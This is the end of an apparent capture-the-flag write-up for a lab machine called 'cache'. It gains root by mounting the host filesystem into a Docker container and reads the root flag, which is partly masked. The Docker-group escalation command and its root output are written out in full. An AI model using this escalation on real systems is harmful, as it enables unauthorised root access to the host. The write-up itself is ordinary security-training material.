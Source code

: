 ```shell
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Grabbing root.txt
```
# cat /root/root.txt
c4b77e278753a0******************

```
And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
